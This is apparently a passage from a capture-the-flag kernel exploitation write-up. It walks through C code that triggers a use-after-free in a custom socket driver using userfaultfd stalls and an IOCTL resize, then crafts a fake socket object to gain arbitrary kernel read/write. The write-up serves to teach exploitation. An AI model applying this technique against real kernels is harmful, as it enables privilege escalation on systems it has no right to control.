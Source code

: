 Having this data, we can now try to do the same trick again but for writing, 
in order to craft a fake socket object:

```c
    /*
     * At this stage we'll try to smash a sock_t and point it's buffer
     * to a controllable location.
     *
     * We choose the uaf0 buffer data because we can just write to it
     * at any time.
     */

    uint64_t uaf0_buf_data = uaf0_sock + 0x100;

    /*
     * Prepare a sock_buf_t in buf for the smash.
     */
     
    *(uint64_t *)(buf + 0x00) = 0;               // spinlock    
    *(uint64_t *)(buf + 0x08) = s2_buf_data + 8; // listening.next
    *(uint64_t *)(buf + 0x10) = s2_buf_data + 8; // listening.prev
    *(uint64_t *)(buf + 0x18) = 1;               // state = INITIALIZED
    *(uint64_t *)(buf + 0x20) = 0;               // peer = none
    *(uint64_t *)(buf + 0x28) = uaf0_buf_data;   // buf
```

Basically we will craft an initialized object, with its `buf` field pointing
to one of the other sockets data, which we control. This allows us to have 
arbitrary read/write capabilities by setting up the `buf` correctly.

Once the data is ready, we trigger the second UAF by receiving from the socket 
into the uffd map. We use the second page because the first one was already 
faulted in:

```c
    /*
     * We want uaf[1] to be on top of server[2] data
     * such that the empty list above makes sense.
     */

    sock_init(client[1], 0x80);
    sock_connect(client[1], "socket2");


    /*
     * Send through client[1] to cause uaf on server[2].
     */
    int read1 = sock_send(client[1], map + 0x1000, 0x30);
```

And this again triggers the uffd thread, which now does this:

```c
                /*
                 * Second time we want to smash the data of a connected socket
                 */

                /* Resize to 0x100 so we get a uaf on the buffer */
                int resize = ioctl(server[2], IOCTL_SOCKS_RESIZE, 0x100);
                printf("[*] Resize client[%d] said: %d\n", count, resize);

                /* Replace the freed buffer by a sock_t */
                uaf[count] = open("/dev/r2socks2", O_RDONLY);
                printf("[*] Created uaf[%d]\n", count);
```
